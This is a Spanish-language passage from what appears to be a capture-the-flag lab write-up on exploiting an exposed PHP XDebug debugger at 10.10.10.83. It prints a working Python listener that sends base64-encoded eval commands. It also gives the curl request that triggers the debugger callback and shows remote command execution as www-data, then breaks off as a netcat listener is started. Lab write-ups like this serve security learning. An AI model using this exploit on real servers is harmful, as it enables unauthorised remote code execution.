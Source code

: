 Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit_shell.py

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = input('>> ')
    data = data.encode('utf-8')
    conn.sendall(b'eval -i -- ' + b64encode(data) + b'\x00')
```

1. Lanzamos el exploit

    ```bash
    python3 exploit_shell.py
    ```

1. Lanzamos una peticion GET

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

1. En la mini shell abierta del exploit_shell.py lanzamos un **whoami**

    ```php
    system('whoami')    
    ```

1. En la respuesta del **curl** se nos pone *www-data*

El exploit funciona y el comando **ifconfig** nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.
## Explotacion de vulnerabilidad & Ganando acceso {-}


### Ganando acceso con la vuln XDebug {-}

1. Nos ponemos en escucha con netcat
